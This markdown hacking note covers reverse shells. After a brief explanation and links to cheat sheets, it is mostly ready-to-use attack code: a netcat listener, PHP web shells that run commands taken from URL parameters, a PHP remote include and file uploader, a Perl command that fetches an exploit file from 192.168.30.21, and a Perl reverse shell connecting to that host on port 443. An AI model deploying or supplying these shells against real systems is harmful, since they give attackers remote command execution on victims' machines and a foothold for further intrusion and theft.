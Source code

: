 ```yaml
---
is: "[[note]]"
of: "[[hacking]]"
---
```

# Notes
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- http://roo7break.co.uk/?p=215
- [Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
- [lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
	- [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
- http://pentestmonkey.net/blog/post-exploitation-without-a-tty
- https://gtfobins.github.io/#+reverse%20shell
- https://snyk.io/blog/reverse-shell-attack/

# Netcat listener
You need a listener for the reverse shell to connect back to. It should be open to the internet (or at least the IPs being attacked).
```bash
nc -lvp 9001
```

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
